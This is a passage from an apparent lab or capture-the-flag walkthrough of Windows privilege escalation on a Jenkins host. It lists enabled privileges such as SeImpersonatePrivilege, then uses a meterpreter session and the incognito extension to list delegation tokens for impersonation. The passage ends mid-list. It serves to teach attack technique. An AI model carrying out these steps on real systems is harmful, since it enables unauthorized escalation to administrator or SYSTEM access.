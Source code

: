 The output will be similar to
{% capture code %}{% raw %}PRIVILEGES INFORMATION

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled{% endraw %}{% endcapture %} {% include code.html code=code %}

Background the current `meterpreter` session.
{% capture code %}{% raw %}C:\Program Files (x86)\Jenkins\workspace\project>^Z
Background channel 1? [y/N]  y{% endraw %}{% endcapture %} {% include code.html code=code %}

Load `incognito` mode.
{% capture code %}{% raw %}meterpreter > load incognito
Loading extension incognito...Success.{% endraw %}{% endcapture %} {% include code.html code=code %}

List the currently avilable tokens in `meterpreter` shell.
{% capture code %}{% raw %}meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
            Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS